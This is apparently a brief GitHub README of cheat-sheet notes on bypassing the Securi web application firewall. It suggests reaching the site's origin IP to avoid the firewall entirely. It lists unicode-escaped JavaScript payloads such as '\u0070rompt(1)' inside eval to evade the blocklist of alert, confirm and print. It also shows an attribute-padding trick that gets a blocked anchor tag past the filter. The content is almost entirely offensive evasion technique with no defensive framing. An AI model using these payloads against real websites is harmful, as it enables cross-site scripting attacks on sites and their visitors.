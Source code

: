 # WAF_bypass

## Securi WAF

1. If you can get the IP it will totally bypass the WAF!

print, confirm, alert are blacklisted. A workaround can be using unicode. 

prompt
```js
\u0070rompt(1)
eval(\u0070rompt(1))
```

href
```
# Blocked
<a href="hello">

# Bypass 

<a fooooooooooooooooooooooo href="hello">
```
